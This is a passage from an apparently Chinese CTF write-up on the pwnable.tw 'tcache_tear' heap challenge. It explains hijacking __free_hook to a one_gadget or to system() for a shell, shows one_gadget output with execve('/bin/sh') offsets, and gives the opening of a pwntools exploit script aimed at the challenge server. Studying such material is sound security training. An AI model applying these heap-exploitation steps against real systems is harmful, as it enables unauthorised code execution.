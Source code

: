 #### 利用__free_hook

本题我们利用__free_hook来完成控制流劫持，因为我们可以执行free函数，即可以触发到相应的函数指针，并且方便控制参数：

```c
if ( v4 <= 7 )
{
  free(ptr);
  ++v4;
}
```

ptr参数可以通过malloc直接控制，所以接下来有两种方法：

1. 直接劫持__free_hook到one_gadget
2. 劫持__free_hook到system函数，并再次malloc控制ptr指向`/bin/sh`等字符串

找到以下one_gadget地址，测试第二个可用：

```
$ one_gadget libc-tcache.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## exp

原来system($0)也能获取shell，又学到一手

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

context(arch='amd64',os='linux',log_level='debug')

debug = 0
if debug:
	elf = ELF("./tcache_tear")
	libc = ELF("./libc-tcache.so")
	io = process(elf.path)
else:
	elf = ELF("./tcache_tear")
	libc = ELF("./libc-tcache.so")
	io = remote("chall.pwnable.tw",10207)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

```
